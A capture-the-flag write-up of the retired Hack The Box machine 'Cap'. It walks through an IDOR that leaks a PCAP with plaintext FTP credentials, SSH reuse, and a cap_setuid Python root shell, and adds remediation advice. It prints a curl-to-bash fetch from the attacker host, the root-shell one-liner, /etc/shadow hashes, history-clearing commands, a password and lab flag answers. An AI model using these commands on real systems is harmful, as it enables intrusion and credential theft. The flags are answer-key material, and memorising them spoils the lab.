

# Synopsis


>[!summary]
>- **Foothold:** IDOR on `/data/{id}` → download `0.pcap` → extract plaintext FTP credentials (`nathan:Buck3tH4TF0RM3!`)
>- **Access:** Credential reuse on SSH → shell as `nathan`
>- **PrivEsc:** `cap_setuid` on `/usr/bin/python3.8` → `os.setuid(0)` → root shell

| Machine    | Cap                      |
| ---------- | ------------------------ |
| OS         | Linux (Ubuntu 20.04)     |
| Difficulty | Easy                     |
| Release    | 2021-06-05               |
| Retired    | Yes                      |
| Creators   | InfoSecJack              |
| CVE(s)     | None (logic / misconfig) |




---
## Skills Required 

- Basic Linux command-line navigation
- HTTP request/response understanding
- Familiarity with PCAP analysis (Wireshark / tcpdump)
## Lessons Learned

1. **Authorisation ≠ Authentication.** A login prompt doesn't mean the app properly restricts what each user can access after login.
2. **FTP is plaintext.** Any FTP session captured on the wire leaks credentials. In a real engagement, one captured FTP session can unlock an entire environment if passwords are reused.
3. **`getcap -r /` is a first-class privesc check**, not a last resort. Treat it with the same priority as `sudo -l`.
4. **Numeric IDs in URLs are always worth iterating.** Start from 0, go up. IDOR on sequential IDs is one of the most common web vulnerabilities in CTF and real-world applications alike.
5. **IDOR exploitation** — identifying and iterating over insecure direct object references in web applications to access resources belonging to other users
6. **Linux capabilities abuse** — understanding how `cap_setuid` differs from SUID and why it's exploitable with a single Python one-liner
7. **Credential reuse assessment** — always testing recovered credentials across every exposed service before moving on

## Tools Used

| Tool      | Purpose in this machine                                                                  |
| --------- | ---------------------------------------------------------------------------------------- |
| RustScan  | Fast full-port TCP sweep to surface open ports quickly before handing off to Nmap        |
| Nmap      | Deep `-sC -sV` scan for service versions, banners, and SSH host keys                     |
| ffuf      | Directory brute-force against the web root to discover hidden endpoints                  |
| Wireshark | Opened `0.pcap`; followed TCP stream to extract plaintext FTP credentials                |
| python3   | Abused `cap_setuid+ep` capability — called `os.setuid(0)` to escalate to root            |
| linpeas   | Automated local enumeration; flagged the python3.8 capability as a privesc vector        |
| pspy64    | Monitored running processes for cron jobs or privileged tasks — nothing actionable found |
## Resources 

| Resource                        | URL                                                                                                                                                                                                                                                                                                                                                                                              | Notes                            |
| ------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | -------------------------------- |
| IppSec — Cap                    | [https://www.youtube.com/watch?v=O_z6o2xuvlw](https://www.youtube.com/watch?v=O_z6o2xuvlw)                                                                                                                                                                                                                                                                                                       | Full walkthrough video           |
| GTFOBins — Python capabilities  | [https://gtfobins.github.io/gtfobins/python/](https://gtfobins.github.io/gtfobins/python/)                                                                                                                                                                                                                                                                                                       | `cap_setuid` one-liner reference |
| HackTricks — Linux Capabilities | [https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities)                                                                                                                                                                                                                       | Deep dive on capability classes  |
| OWASP — IDOR                    | [https://owasp.org/www-chapter-ghana/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/04-Testing_for_Insecure_Direct_Object_References](https://owasp.org/www-chapter-ghana/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/04-Testing_for_Insecure_Direct_Object_References) | Definition and test methodology  |
| 0xdf — Cap                      | [https://0xdf.gitlab.io/cap](https://0xdf.gitlab.io/2021/10/02/htb-cap.html)                                                                                                                                                                                                                                                                                                                     | Reference writeup post-retire    |

---

# Pre-Engagement
> [!info] **Prepare the Battlefield**
> Set the `$TARGET` variable, confirm VPN connectivity (`ping -c 3 $TARGET`), create the directory structure (`recon/`, `exploits/`, `loot/`), and ensure your tools are updated.

## Environment Setup

### Directory Creation

```bash
export MACHINE=Cap
mkdir -p ~/Labs/Platforms/HTB/Machines/$MACHINE/{recon,loot,exploit}
ln -s ~/Lab/Tools ~/Labs/Platforms/HTB/Machines/$MACHINE/tools
cd ~/Labs/Platforms/HTB/Machines/$MACHINE
```

### .env File

```bash
cat > .env << EOF
MACHINE=$MACHINE
TARGET=<TARGET_IP>
HOST=<HOST_IP>
EOF

source .env && ping $TARGET -c4
```

> [!tip] Verify connectivity before scanning. If ICMP is blocked, use `nmap -sn $TARGET` instead.

---
# Reconnaissance

## Quick Scan

```bash
# Fast TCP sweep (RustScan for speed)
rustscan -a $TARGET -r 1-65535 -t 10000 --ulimit 6500  -- -Pn -oN recon/rustscan.txt -oX recon/rustscan.xml

# Extract open ports
grep "^[0-9]" recon/rustscan.txt | cut -d'/' -f1 | tr '\n' ',' | sed 's/,$//' > recon/open_ports.txt
PORTS=$(cat recon/open_ports.txt); echo "PORTS=$PORTS" | tee -a .env
echo "Open TCP Ports: $PORTS"
```

## Deep Scan

```bash
# Set $PORTS from rustscan output first
sudo nmap -sC -sV -vv -p $PORTS $TARGET -oN recon/nmap_deep
```

### Nmap Scan 
```sh
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3

22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC2vrva1a+HtV5SnbxxtZSs+D8/EXPL2wiqOUG2ngq9zaPlF6cuLX3P2QYvGfh5bcAIVjIqNUmmc1eSHVxtbmNEQjyJdjZOP4i2IfX/RZUA18dWTfEWlNaoVDGBsc8zunvFk3nkyaynnXmlH7n3BLb1nRNyxtouW+q7VzhA6YK3ziOD6tXT7MMnDU7CfG1PfMqdU297OVP35BODg1gZawthjxMi5i5R1g3nyODudFoWaHu9GZ3D/dSQbMAxsly98L1Wr6YJ6M6xfqDurgOAl9i6TZ4zx93c/h1MO+mKH7EobPR/ZWrFGLeVFZbB6jYEflCty8W8Dwr7HOdF1gULr+Mj+BcykLlzPoEhD7YqjRBm8SHdicPP1huq+/3tN7Q/IOf68NNJDdeq6QuGKh1CKqloT/+QZzZcJRubxULUg8YLGsYUHd1umySv4cHHEXRl7vcZJst78eBqnYUtN3MweQr4ga1kQP4YZK5qUQCTPPmrKMa9NPh1sjHSdS8IwiH12V0=
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDqG/RCH23t5Pr9sw6dCqvySMHEjxwCfMzBDypoNIMIa8iKYAe84s/X7vDbA9T/vtGDYzS+fw8I5MAGpX8deeKI=
|   256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPbLTiQl+6W0EOi8vS+sByUiZdBsuz0v/7zITtSuaTFH

80/tcp open  http    syn-ack ttl 63 Gunicorn
|_http-server-header: gunicorn
| http-methods:
|_  Supported Methods: HEAD OPTIONS GET
|_http-title: Security Dashboard
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
## Interesting Ports

| Port | State | Service | Version                         | TCP/UDP | Notes                               |
| ---- | ----- | ------- | ------------------------------- | ------- | ----------------------------------- |
| 21   | open  | ftp     | vsftpd 3.0.3                    | TCP     | Anonymous login disabled            |
| 22   | open  | ssh     | OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 | TCP     | Standard; target for cred reuse     |
| 80   | open  | http    | Gunicorn                        | TCP     | Security dashboard — primary target |

**TTL of 63** confirms Linux (64 − 1 hop). Three services, small attack surface — focus goes straight to port 80.

---
# Enumeration

## DNS 

```sh
echo "DOMAIN=cap.htb" | tee -a ~/Labs/Platforms/HTB/Machines/$MACHINE/.env
source .env
echo "$TARGET $DOMAIN" | sudo tee -a /etc/hosts
```

## FTP (Port 21) - vsftpd 3.0.3 

```bash
searchsploit vsftpd 3.0.3
```


>A Remote Denial of Service (RDDoS) attack is a malicious attempt to make a server, service, or network unavailable by sending a flood of traffic or specially crafted data from a remote location. - **NOT USEFUL TO GAIN ACCESS**

```bash
ftp 10.10.10.245 21
# anonymous:anonymous
```

>Anonymous login disabled
>Anonymous FTP allows users to access public files on a server without needing a personal user ID or password.


Dead end. No anonymous access, no exploitable CVE. Move on.
## HTTP (Port 80) — Gunicorn / Flask

- Port 80 hosts a web server with a dashboard application.
- **Web Server Details**: gunicorn running on Ubuntu.
- **Enumeration**: Used `gobuster` to enumerate directories:

### Directory brute-force (FFUF)

```bash
ffuf -u http://$TARGET/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-directories.txt -mc 200,301,302,303 -fc 404,403 -t 150 -o recon/ffuf-root.json -of json
```

```sh
data                    [Status: 302, Size: 208, Words: 21, Lines: 4, Duration: 413ms]
ip                      [Status: 200, Size: 17459, Words: 7275, Lines: 355, Duration: 407ms]
capture                 [Status: 302, Size: 222, Words: 21, Lines: 4, Duration: 5465ms] # redirect to `data`
```

### Application Walkthrough

**Homepage** — `http://$TARGET/` The dashboard identifies the logged-in user as `nathan`. This leaks a valid username immediately.


**404 page** — `http://$TARGET/404` Flask's default 404 template is served. This confirms the framework and rules out a heavily hardened deployment.


- View https://0xdf.gitlab.io/cheatsheets/404#flask for more info

**IP Config** — `http://$TARGET/ip` Runs `ifconfig` server-side and renders the output. Interesting for internal network recon but not an immediate vector.


**Network Status** — `http://$TARGET/netstat` Renders `netstat` output. Confirms active connections and listening services.


**Security Snapshot** — `http://$TARGET/data/2` Clicking "Security Snapshot" triggers a 5-second capture and redirects to `/data/<id>`. The ID is a plain integer incremented per capture. There is no session token, CSRF check, or ownership validation in the URL — the server returns whatever file ID you request.


### IDOR — Iterating to `/data/0`

The current session generated ID 2. Manually changing the URL to `/data/0` returns a capture that predates the current session — belonging to another user (or the system).


The page shows **72 packets captured** — unlike the near-empty captures for IDs 1 and 2. Download it.

- Download the `o.pcap` and analyze with `wireshark/tcpdump`

```sh
curl http://$TARGET/data/0 -o loot/0.pcap
```

- Discovered `/data/` directory, which allowed access to files via an IDOR (Insecure Direct Object Reference) vulnerability.
- URL: `http://10.10.10.245/data/0` displayed a network packet capture (PCAP) file.
- Iterated through IDs (e.g., `/data/1`, `/data/2`) and found sensitive files, including user credentials in a downloadable file.
## Vulnerability Table
| Vulnerability | Severity | Proof                                                                       |
| ------------- | -------- | --------------------------------------------------------------------------- |
| IDOR          | High     | `http://<TARGET IP>/data/0` — unauthenticated access to another user's PCAP |
## Pre-Attack Hypothesis

### What I see

- **Port 21 (FTP, vsftpd 3.0.3):** Anonymous login disabled. `searchsploit` returns only a remote DoS — not useful for access. Dead end unless we recover credentials elsewhere.
- **Port 22 (SSH):** No known vuln on this version. Useful only if we find credentials.
- **Port 80 (Flask/Gunicorn):** A "Security Dashboard" — unusual for an easy box. The 404 page exposes Flask's debug template, confirming the framework. The app references a user (`nathan`) and offers a **Security Snapshot** feature that captures 5 seconds of network traffic and stores it as a PCAP. The download URL is `/data/<id>` — a numeric ID with no visible ownership check. This is the lead.

### My hypothesis

**Hypothesis:** The `/data/<id>` endpoint is vulnerable to IDOR. The application stores PCAP files indexed by an integer and returns any file to any authenticated user without checking whether the requesting session owns that capture. Iterating to lower IDs (starting from 0) may expose captures generated by other users or the system itself — potentially containing sensitive traffic like plaintext protocol credentials.

**Confidence:** High — the URL pattern is a textbook IDOR setup, the app is running as `nathan` (visible in the dashboard), and FTP on port 21 transmits credentials in cleartext by design.

**Alternative if wrong:** No sensitive data in older captures → enumerate vhosts/subdomains, look for Flask debug endpoints (`/console`), or test for SSTI in any user-controlled input field.


---
# Exploitation
> [!fire] **Gain a Foothold**
> Execute the exploit, catch the shell, and stabilize it (Python PTY / `rlwrap`). Log the exact command and credentials used.
## Hypothesis check

**Result:** Correct. `/data/0` contained a prior FTP session transmitted in plaintext. The IDOR gave direct access to credentials that were never meant to be visible.

**What changed:** Nothing — the hypothesis held exactly. The only nuance is that IDs 1 and 2 were effectively empty (our own captures). Always start from 0 on numeric IDOR, not from ID−1.

## Vector

> [!success] **Vector:** IDOR → `data/0` file download → `wireshark` view → plain test leaked reuseable password `ssh/ftp` 

### Credentials Discovery

  - Analyzed the PCAP file using **Wireshark**

```sh
wireshark 0.pcap
```


> Filter: `ftp` → right-click any packet → **Follow → TCP Stream**

The stream shows a complete FTP login sequence in cleartext:
```txt
USER nathan
PASS Buck3tH4TF0RM3!
230 Login successful.
```

>[!IMPORTANT]
>nathan:Buck3tH4TF0RM3!

Test across **all** exposed services before moving on.

- Reuseable Password 
- can be used to ftp and ssh into user `nathan`

```bash
ssh nathan@10.10.10.245 -p 22 # Buck3tH4TF0RM3!
```

**Shell context:** `nathan@cap`
User flag located at `/home/nathan/user.txt`.

---
# Privilege Escalation

## Local Enumeration

```sh
# Serve linpeas from attacker
python3 -m http.server 8080

# On target — run linpeas
curl -s http://$HOST:8080/linpeas.sh | bash

# Manual checks
sudo -l                          # No sudo rights
find / -perm -4000 2>/dev/null   # SUID binaries — nothing unusual
getcap -r / 2>/dev/null          # Linux capabilities — THIS is the hit
crontab -l; cat /etc/crontab     # Cron — nothing
find / -writable -user root 2>/dev/null | grep -v proc  # Writable files owned by root

# Find User Flag
find / -name "user.txt" -readable 2>/dev/null -exec cat {} \;
```

**Output**:
  - User: `nathan` ; user flag locate in `/home/nathan/user.txt`
  - No `sudo` privileges.
  
  `getcap` output:
  ```sh
  /usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
  ```


`pspy64` was also run — no interesting scheduled tasks or cron jobs found.

### Why This Is Exploitable

Linux capabilities are a way to grant specific elevated privileges to a binary without making it full SUID root. `cap_setuid` allows a process to call `setuid()` to change its effective user ID to any UID — including 0 (root). Because `python3.8` carries this capability, any Python process it spawns can call `os.setuid(0)` and then execute commands as root.

This differs from SUID in one important way: the binary itself doesn't run as root, but it _can_ make itself root at will from within the process. GTFOBins documents this exact vector.
## Privilege Escalation vector

> [!success] **Vector:**  `/usr/bin/python3` had the `cap_setuid+ep` capability, allowing it to set the user ID to any user (including root).


```bash
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

- This spawned a root shell, granting full administrative access.


**Root shell context:** `root@cap`
Root flag at `/root/root.txt`

---
# Post Exploitation

> [!example] **Loot & Persist**
> Grab hashes, flags, and configuration secrets. Check for SSH keys and other machines in the environment. 

- [x] Dump `/etc/shadow` / `SAM` hashes
- [x] Check for other users / groups
- [x] Look for flags in home directories
- [x] Investigate network interfaces / pivoting opportunities
- [x] Check cron jobs / running processes for persistence clues
- [x] Search for configuration files with secrets (`config.php`, `.env`, `web.config`)
- [x] Check bash history: `cat ~/.bash_history`
- [x] Look for SSH keys in `.ssh/`
- [x] Enumerate mounted drives: `mount` / `df -h`

> _"No other users found"_, "No SSH keys discovered"
## /etc/shadow

```sh
cat /etc/shadow | grep -F "\$"

root:$6$8vQCitG5q4/cAsI0$Ey/2luHcqUjzLfwBWtArUls9.IlVMjqudyWNOUFUGDgbs9T0RqxH6PYGu/ya6yG0MNfeklSnBLlOskd98Mqdm0:18762:0:99999:7:::
nathan:$6$R9uks4CNctqqxTOR$/PRd4MKFG5NUNxPkdvIedn.WGvkBh9zqcvCRRzgggky1Xcv7ZxTXfny0QmA.gZ/8keiXdblFB7muSeo2igvjk.:18762:0:99999:7:::
```

**Summary:** No other users, no SSH keys, no interesting cron jobs. The only loot was `/etc/shadow` hashes, which were not cracked.

---
# Cleanup
> [!danger] **Cover Your Tracks**
> Kill reverse shells, remove uploaded payloads, and revert any modified configs. Leave the box as you found it.

```bash
# On target
rm -f /tmp/linpeas.sh /tmp/pspy64
history -c && history -w

# On attacker
# Kill http.server (Ctrl+C)
rm -f loot/linpeas.sh
tmux kill-server
```

---
# Remediation

> [!summary] **Fix the Root Cause**
> For each vulnerability, list the actionable fix (patch, config change, principle of least privilege) and assign a priority. 

| Finding                                      | Fix                                                                                                                                                                                                                                                                                         | Priority     |
| -------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------ |
| **IDOR on `/data/<id>`**                     | Implement per‑user authorisation: store the PCAP file with a random UUID and a mapping table that ties each file to the session/user that generated it. On each request, validate that the authenticated user owns the resource before serving it.                                          | **Critical** |
| **FTP credentials transmitted in plaintext** | Disable plaintext FTP entirely; enforce FTPS (FTP over TLS) or SFTP (SSH File Transfer Protocol). This prevents any network capture from exposing credentials, regardless of authorisation bugs.                                                                                            | **High**     |
| **Credential reuse (FTP → SSH)**             | Enforce strict password policies (complexity, rotation) and implement MFA for SSH. Encourage / require users to use unique passwords per service. Better yet, move to SSH key‑based authentication and decommission password logins.                                                        | **High**     |
| **`cap_setuid` on Python**                   | Remove the `cap_setuid` capability from `/usr/bin/python3.8` using `setcap -r /usr/bin/python3.8`. If Python needs network binding (`cap_net_bind_service`), keep only that capability separately, never combine it with `cap_setuid`. Review all binaries with `getcap -r /` periodically. | **Critical** |
## Additional Hardening Recommendations

- **Logging & Monitoring:** Alert on unusual access patterns to `/data/*` (e.g., sequential requests, many 404s) and on any `setuid(0)` calls from non‑root processes.
    
- **Principle of Least Privilege:** The application should run with a dedicated low‑privileged user, not as `nathan` (who had SSH access). Separate web and shell users.
    
- **PCAP Storage:** Encrypt stored PCAP files at rest and restrict read access to only the application process. Never store them in a web‑accessible directory without a secure download handler.
---
# Trophies

- [x] **user.txt**
- [x] **root.txt**

## Credentials
| User   | Password / Hash | Service | Found in |
| ------ | --------------- | ------- | -------- |
| nathan | Buck3tH4TF0RM3! | FTP/SSH | 0.pcap   |
## Guided Mode 

| Task | Question                                                                                                                                                                                  | Answer                           |
| ---- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------- |
| 1    | How many TCP ports are open?                                                                                                                                                              | 3                                |
| 2    | After running a "Security Snapshot", the browser is redirected to a path of the format `/[something]/[id]`, where `[id]` represents the id number of the scan. What is the `[something]`? | data                             |
| 3    | Are you able to get to other users' scans?                                                                                                                                                | yes                              |
| 4    | What is the ID of the PCAP file that contains sensative data?                                                                                                                             | 0                                |
| 5    | Which application layer protocol in the pcap file can the sensetive data be found in?                                                                                                     | ftp                              |
| 6    | We've managed to collect nathan's FTP password. On what other service does this password work?                                                                                            | ssh                              |
| 7    | **User Flag**:Submit the flag located in the nathan user's home directory.                                                                                                                | f63e490a8a3fd6f7032ac8e7f0b89e1c |
| 8    | What is the full path to the binary on this machine has special capabilities that can be abused to obtain root privileges?                                                                | /usr/bin/python3.8               |
| 9    | **Root Flag**:Submit the flag located in root's home directory.                                                                                                                           | 3540f38a944802969e78336b1745a481 |

---
# Conclusion


Cap is a clean, focused easy box that teaches two concepts well: IDOR as a web foothold vector, and Linux capabilities as a privilege escalation path. Neither technique requires complex exploitation — the value is in recognising the pattern fast and executing cleanly.

The IDOR is a realistic finding. Applications that generate user-specific resources (reports, captures, exports) and store them under sequential IDs are common in the real world, and the authorisation check is frequently missing. The FTP-in-PCAP combination is a natural consequence of one bad design decision compounding another.

The `cap_setuid` escalation is one of the cleaner privesc paths you'll encounter on HTB. It's a good introduction to capabilities for anyone who has only studied SUID binaries — the mechanism is different, the detection method (`getcap`) is different, and it's worth understanding the distinction before the CPTS exam.

**Recommended for:** anyone starting their CPTS academy path who wants a low-noise, high-clarity machine to practice web enumeration methodology and build the local enumeration reflex.


## Live Rabbit Holes Log

|#|Path tried|Time spent|Why it failed|What I learned|
|---|---|---|---|---|
|1|vsftpd 3.0.3 searchsploit|~5 min|Only remote DoS — no RCE, no auth bypass|Always check what class of vuln an exploit is before chasing it|
|2|Anonymous FTP|~3 min|Login rejected outright|Confirm anon is enabled before spending time on it|
|3|PCAP IDs 1 and 2|~5 min|Near-empty captures — our own session traffic|Always start IDOR iteration from 0, not from current ID−1|

---
## Feynman Review

### Explain the vulnerability — why does it exist?

The developer built a feature that captures network traffic and stores each capture as a file, named by a simple incrementing number. When you click "download," the app takes whatever number is in the URL and returns that file — it never checks whether _you_ created it. This is the same mistake as building a library where anyone can check out any book just by knowing the book number, with no library card required.

The root cause is a missing authorisation check. The app authenticates you (you must be logged in), but it never _authorises_ you (it never checks whether the resource you're requesting belongs to you). Authentication and authorisation are separate concerns, and skipping the second one while implementing the first creates IDOR.

### Explain the full attack chain in plain English

The web app lets users record 5 seconds of network activity. Those recordings are stored with sequential numbers. By changing the number in the URL to 0, we accessed a recording made much earlier — before we ever logged in. That recording captured someone logging into the FTP service, and because FTP sends passwords in plain text (no encryption), the password was sitting there in the recording to read. That same password happened to work on the SSH service too, which gave us a proper terminal on the machine. Once inside, we noticed that the Python program had a special permission that lets it change which user it's running as. We used one line of Python to tell it to become the root user, then opened a new terminal as root.

### Where did I get stuck and why?

No significant sticking points on this machine. The IDOR was visible from the first look at the URL structure. The main risk would have been not starting iteration at ID 0 — if I had only tried IDs around my current session ID, I would have found empty captures and potentially rabbit-holed elsewhere.

### What concept was missing from my knowledge before this machine?

**Linux capabilities vs SUID** — I knew SUID binaries escalate privilege, but I hadn't deeply internalised that capabilities are a more granular system. `cap_setuid` is specifically dangerous because it lets a process voluntarily elevate to root UID without the binary itself being SUID. `getcap -r /` needs to be a reflex in every local enumeration pass, not an afterthought.

### What I'd do differently next time

- Run `getcap -r / 2>/dev/null` manually _before_ waiting for linpeas — it's a fast one-liner and capabilities are a common easy-box privesc vector.
- Always iterate IDOR from ID 0, not just ±1 from the current ID.
- After finding credentials, test them on _every_ exposed service (FTP and SSH both) before moving on — reuse is common on HTB easy boxes.


---

## Exam Module Mapping

|CPTS Module|How Cap reinforces it|
|---|---|
|Web Attacks (IDOR)|Core foothold — textbook IDOR on a numeric object ID with no authorisation check|
|File Inclusion / Sensitive Data Exposure|PCAP download exposes sensitive data; same "unauthenticated file access" class of bug|
|Linux Privilege Escalation|`cap_setuid` abuse — capabilities section specifically|
|Password Attacks (Credential Reuse)|FTP creds → SSH reuse; always test recovered creds across all services|
|Network Traffic Analysis|Wireshark TCP stream follow to extract plaintext FTP credentials from PCAP|
### Techniques from this machine to remember for the exam

- **IDOR pattern recognition:** Any URL with a numeric or sequential ID and no per-request ownership check is an IDOR candidate. Always fuzz from 0.
- **`getcap -r / 2>/dev/null`** in the local enumeration checklist — not optional, and output should be read carefully. `cap_setuid`, `cap_dac_override`, and `cap_chown` are all instant escalation paths.
- **Credential reuse discipline:** Never stop at one service. Recover creds → test FTP, SSH, HTTP login, SMB, anything exposed.
- **FTP = plaintext:** In network capture analysis, filter FTP first. `USER`/`PASS` commands are always in cleartext.
